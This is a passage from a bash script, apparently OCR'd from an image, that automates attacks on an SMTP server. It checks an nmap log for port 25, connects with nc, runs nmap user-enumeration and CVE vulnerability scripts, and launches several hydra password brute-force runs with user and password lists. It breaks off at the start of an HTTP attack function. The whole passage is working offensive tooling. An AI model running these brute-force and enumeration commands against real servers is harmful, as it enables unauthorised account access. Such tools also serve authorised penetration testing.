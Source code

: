   #  Port 25 - (SMTP)
  BruteSMTP(){
    # - Name:
    # - Version:
    # - VRFY:
    # - EXPN:
    if grep -q 25/tcp nmap.log; then
      BruteSMTP_Open="$(echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 25(SMTP) is open. Starting bruteforce...\n")"
      AfterBruteSMTP="${BruteSMTP_Open}"
      nc -nvv ${targetIP} 25
      # echo "${AfterBruteSMTP}"
      sleep 1
      nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 ${targetIP}
      hydra -L $user -P $pass ${targetIP} smtp-enum -e ns -o Output/${targetIP}/smtp-enum_${targetIP}.txt -I -V -t $thread
	    hydra -L $smtp_u -P $smtp_p ${targetIP} smtp -e ns -o Output/${targetIP}/smtp_${targetIP}.txt -I -V -t $thread
      hydra -L $user -P $pass ${targetIP} smtp -e ns -o Output/${targetIP}/smtp1_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      BruteSMTP_Close="$(echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 25(SMTP) is not open. Skipping to next port...")"
      AfterBruteSMTP="${BruteSMTP_Close}"
      echo "${AfterBruteSMTP}"
    fi
 }
  BruteSMTP

  #  Port 80 - (HTTP)
  BruteHTTP(){
    # - Server:
    # - Scripting language:
    # - Apache Modules:
    # - Domain-name address:
    # - Web application
    # - Name:
    # - Version:
   if grep -q 80/tcp nmap.log; then